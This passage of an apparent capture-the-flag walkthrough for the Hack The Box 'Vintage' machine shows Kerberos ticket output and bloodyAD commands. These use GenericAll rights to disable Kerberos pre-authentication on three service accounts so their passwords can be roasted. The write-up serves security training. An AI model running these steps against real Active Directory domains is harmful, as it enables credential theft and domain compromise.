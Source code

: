 ![alt text](../assets/images/vintage11.png)
okey now important part
Using the GenericAll authority on the svc_sql user of the SERVICEMANAGERS group, we first activate the account, then add servicePrincipalName and obtain the password for the user using the Kerberoasting method.

## activate the account

First of all we will use P.Rosa because we already added him in SERVICEMANGERS group

```bash
➜  Vintage klist
Ticket cache: FILE:p.rosa@10.10.11.45.ccache
Default principal: p.rosa@VINTAGE.HTB

Valid starting       Expires              Service principal
04/24/2025 17:07:48  04/25/2025 03:07:48  krbtgt/VINTAGE.HTB@VINTAGE.HTB
        renew until 04/25/2025 17:07:48
```

```bash
➜  Vintage bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k add uac SVC_SQL -f DONT_REQ_PREAUTH 
[-] ['DONT_REQ_PREAUTH'] property flags added to SVC_SQL's userAccountControl
➜  Vintage bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k add uac SVC_LDAP -f DONT_REQ_PREAUTH
[-] ['DONT_REQ_PREAUTH'] property flags added to SVC_LDAP's userAccountControl
➜  Vintage bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k add uac SVC_ARK -f DONT_REQ_PREAUTH 
[-] ['DONT_REQ_PREAUTH'] property flags added to SVC_ARK's userAccountControl
```
